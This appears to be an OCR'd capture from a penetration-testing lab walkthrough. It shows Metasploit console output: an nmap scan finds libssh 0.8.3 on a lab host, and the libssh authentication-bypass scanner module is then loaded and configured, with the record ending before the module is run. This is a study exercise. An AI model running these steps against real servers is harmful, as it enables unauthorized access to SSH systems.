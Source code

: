 ```
msf5 > db_nmap -sS -sV -O 192.198.72.3
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-02-03 10:11 UTC
[*] Nmap: Nmap scan report for target-1 (192.198.72.3)
[*] Nmap: Host is up (0.000047s latency).
[*] Nmap: Not shown: 999 closed ports
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     (protocol 2.0)
[*] Nmap: 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[*] Nmap: SF-Port22-TCP:V=7.70%I=7%D=2/3%Time=63DCDDE7%P=x86_64-pc-linux-gnu%r(NULL,
[*] Nmap: SF:16,"SSH-2\.0-libssh_0\.8\.3\r\n");
[*] Nmap: MAC Address: 02:42:C0:C6:48:03 (Unknown)
[*] Nmap: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
[*] Nmap: TCP/IP fingerprint:
[*] Nmap: OS:SCAN(V=7.70%E=4%D=2/3%OT=22%CT=1%CU=39471%PV=N%DS=1%DC=D%G=Y%M=0242C0%TM
[*] Nmap: OS:=63DCDDF2%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%
[*] Nmap: OS:TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5
[*] Nmap: OS:=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=
[*] Nmap: OS:FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
[*] Nmap: OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
[*] Nmap: OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
[*] Nmap: OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
[*] Nmap: OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
[*] Nmap: OS:%T=40%CD=S)
[*] Nmap: Network Distance: 1 hop
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 18.13 seconds
```

```
msf5 > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
192.198.72.3  22    tcp    ssh   open   protocol 2.0
```

```
msf5 > search libssh_auth_bypass

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   1  auxiliary/scanner/ssh/libssh_auth_bypass  2018-10-16       normal  Yes    libssh Authentication Bypass Scanner


msf5 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf5 auxiliary(scanner/ssh/libssh_auth_bypass) > show options

Module options (auxiliary/scanner/ssh/libssh_auth_bypass):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_BANNER  true             no        Check banner for libssh
   CMD                            no        Command or alternative shell
   RHOSTS        192.198.72.3     yes       The target address range or CIDR identifier
   RPORT         22               yes       The target port
```